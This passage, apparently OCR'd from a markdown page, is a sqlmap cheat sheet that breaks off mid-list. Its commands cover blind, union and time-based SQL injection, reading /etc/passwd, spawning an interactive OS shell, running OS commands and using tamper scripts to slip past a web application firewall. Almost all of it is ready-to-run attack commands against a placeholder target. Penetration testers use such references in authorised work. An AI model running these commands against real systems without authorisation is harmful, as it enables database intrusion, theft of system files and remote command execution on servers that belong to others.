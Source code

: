 **Authentication:**

```bash
sqlmap -u "$URL" --auth-type=basic --auth-cred="$AUTH_CRED"
```

**Blind SQL Injection - Time Based:**

```bash
sqlmap -u "$URL" --time-sec=5 --technique="$TECHNIQUE"
```

**Blind SQL Injection - Boolean Based:**

```bash
sqlmap -u "$URL" --technique="$TECHNIQUE"
```

**Union Query Injection:**

```bash
sqlmap -u "$URL" --technique=U
```

**SQL version (stacked or union-capable targets):**

```bash
sqlmap -u "$URL" --sql-query="SELECT @@version"
```

**File Read:**

```bash
sqlmap -u "$URL" --file-read="/etc/passwd"
```

**OS Command Execution:**

```bash
# Spawn interactive OS shell
sqlmap -u "$URL" --os-shell

# Or run a single command
sqlmap -u "$URL" --os-cmd="id"
```

**Using Tamper Scripts:**

```bash
# Examples: adjust to the target/WAF
sqlmap -u "$URL" --tamper="between,randomcase,space2comment"
```

***

### IV. Example Scenarios

*   Boolean-based blind injection:

    ```bash
    sqlmap -u "$URL" --technique=B --dbs
    ```
*   Time-based blind injection:
